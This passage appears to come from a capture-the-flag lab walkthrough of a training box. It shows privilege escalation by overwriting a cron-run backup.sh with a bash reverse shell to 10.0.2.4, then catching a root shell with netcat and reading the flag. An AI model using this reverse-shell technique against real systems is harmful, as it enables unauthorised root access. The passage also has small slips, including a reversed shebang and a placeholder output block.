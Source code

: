 Once it's served, we can `cd` into `/tmp` where `backup.zip` is and use `wget` to download it on the target machine. Now, change the permissions of `pspy64` so we can execute it using `chmod +x pspy64`. Now we can run it:
```bash
./psypy64
#####
## PLACEHOLDER
##
##
##
```
Scanning the output, we can see that `backup.sh` is being ran every minute.
### 2nd RevShell
Now that we've verified that `backup.sh` is being executed, we can manipulate that to get another shell, but this time *with root permissions and access*.
#### Our bash script:
A simple script to achieve a shell using [bash](coding/languages/bash.md) is the following:
```bash
!#/bin/bash

bash -i >& /dev/tcp/10.0.2.4/44445 0>&1
```
Use `nano` to edit `backup.sh`, get rid of the original code and replace it with this shell code. *Before saving the file* make sure you have another instance of [netcat](cybersecurity/tools/netcat.md) up and listening to the correct port.

Once you save the file, it should get executed w/i the next 2 minutes, and on your listener you should see:
```bash
nc -lvnp 44445
listening on [any] 44445 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 34634
bash: cannot set terminal process group (18009): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~#          # <----------- 
```
## Flag
Once we're in as root, all we have to do is observe our surroundings:
```bash
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt
cat flag.txt  
Congratz you rooted this box !  
Looks like this CMS isn't so secure...  
I hope you enjoyed it.   
If you had any issue please let us know in the course discord. 
Happy hacking !                                                                                   
root@academy:~#    
```
